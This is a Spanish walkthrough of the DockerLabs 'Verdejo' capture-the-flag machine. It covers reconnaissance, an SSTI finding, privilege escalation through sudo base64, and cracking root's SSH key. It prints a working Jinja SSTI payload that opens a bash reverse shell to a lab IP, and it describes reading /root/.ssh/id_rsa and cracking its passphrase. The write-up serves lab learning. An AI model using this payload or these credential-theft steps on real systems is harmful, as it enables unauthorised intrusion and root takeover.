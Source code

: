 # 🟢 Verdejo

![IMAGEN_MAQUINA_PORTADA](./images/portada.png)
> 💡 NOTA:  En mi [repositorio dockerlabs](https://github.com/damcorbor/dockerlabs/tree/main/comandos)  suelo ir dejando una lista con los comandos, herramientas y servicios que he ido usando durante los laboratorios, y los explico un poco por si alguien quiere repasarlos o usarlos como referencia.
---

## 🕵️ Reconocimiento

Empezamos con un escaneo con **nmap** para identificar puertos y servicios activos.

![nmap](./images/nmap.png)

El escaneo devuelve los puertos **22 (SSH)**, **80 (HTTP)** y **8089 (HTTP)** abiertos.

Al acceder a la IP por el puerto 80 aparece la página por defecto de Apache2, sin nada interesante ni en la vista ni en el código.

![web1](./images/web1.png)

Accediendo por el puerto **8089**, se muestra una página sencilla. No hay nada útil en el código fuente, pero al pulsar el botón, se imprime el contenido del textarea directamente en pantalla.

![web2](./images/web2.png)

Probamos si es vulnerable a **SSTI (Server Side Template Injection)**, una técnica que permite ejecutar código en el servidor si este interpreta contenido de plantillas sin validación. Para comprobarlo, insertamos una operación simple (`{{7*7}}`) en el textarea.

![SSTI](./images/SSTI.png)  
![49](./images/49.png)

Como el servidor responde con `49`, confirmamos que es vulnerable.

Aprovechando esto, lanzamos una **reverse shell** desde el textarea, mientras ponemos nuestra máquina a la escucha.

``` 
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >&/dev/tcp/172.17.0.1/3344 0>&1\'').read() }}  
```

![revershell](./images/revershell.png)

## ⬆️ Escalada de privilegios

Una vez dentro, ajustamos la shell y ejecutamos `sudo -l` para ver qué comandos podemos usar como root.

![sudo-l](./images/sudo-l.png)

Vemos que podemos ejecutar el binario **base64** como root sin necesidad de contraseña. Con **GTFOBins** verificamos que se puede usar para leer archivos.

![gtfobins](./images/gftobins.png)

Ya que el puerto **22 (SSH)** estaba abierto, intentamos leer el contenido de `/root/.ssh/id_rsa`, copiamos la clave privada y la guardamos en nuestra máquina para acceder mediante ssh.

![id_rsa](./images/base64.png)

La clave tiene **passphrase**, así que usamos **John the Ripper** para crackearla.

![john](./images/john.png)

Con la passphrase descubierta, ya podemos conectarnos como **root** por SSH.

![root](./images/root.png)

Máquina comprometida 🔓

## 🏁 Conclusión

En este reto hemos visto:

- Identificación de una vulnerabilidad **SSTI** en una web personalizada.
- Ejecución de una **reverse shell** desde el navegador.
- Enumeración de permisos con `sudo -l` y uso del binario **base64** para leer archivos protegidos.
- Obtención y crackeo de la clave SSH de root para acceder con control total.



